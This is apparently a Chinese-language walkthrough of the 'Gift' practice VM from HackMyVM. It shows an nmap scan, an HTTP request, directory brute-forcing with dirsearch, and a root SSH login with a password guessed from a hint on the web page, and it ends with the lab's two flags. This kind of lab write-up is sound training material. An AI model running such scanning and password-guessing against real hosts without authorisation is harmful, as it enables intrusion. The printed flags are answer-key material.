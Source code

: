 # Gift

:::note

 [Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-09-25

✔️ MD5 // 8739fe37f9831989cff0ec5dba714947

☠ Root // 516

💀 User // 501

A really easy VM. Thats a gift :)

:::

## 靶机启动

![靶机启动](img/image_20231248-224823.png)

虚拟机 IP：

```plaintext
192.168.163.129
```

## nmap 信息搜集

```shell
Nmap scan report for 192.168.163.129
Host is up (0.00037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey:
|   3072 2c1b3627e54c527b3e10944139efb295 (RSA)
|   256 93c11e32240e34d9020effc39c599bdd (ECDSA)
|_  256 81ab36ecb12b5cd28655120c510027d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:8A:C2:42 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 访问 web - 80

![web port 80](img/image_20231255-225548.png)

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $http get 192.168.163.129
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: keep-alive
Content-Length: 57
Content-Type: text/html
Date: Thu, 21 Dec 2023 15:11:49 GMT
ETag: "5f678373-39"
Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
Server: nginx

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

## 尝试目录爆破

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $dirsearch -u 192.168.163.129

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/192.168.163.129_23-12-21_22-56-29.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-21_22-56-29.log

Target: http://192.168.163.129/

[22:56:29] Starting:
[22:56:38] 200 -   57B  - /index.html
```

## 尝试登录 SSH 服务

:::note 上文 web 所说的内容

```plaintext
ont Overthink. Really, Its simple.
```

尝试使用 `simple` 作为凭据登录 ssh 服务

:::

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $ssh root@192.168.163.129
root@192.168.163.129's password:
IM AN SSH SERVER
gift:~# whoami
root
gift:~# ls -lh
total 8K
----------    1 root     root          12 Sep 24  2020 root.txt
-rw-rw----    1 root     root          12 Sep 24  2020 user.txt
```

## user pwned

```shell
gift:~# cat user.txt
HMV665sXzDS
```

## root pwned

```shell
gift:~# cat root.txt
HMVtyr543FG
```
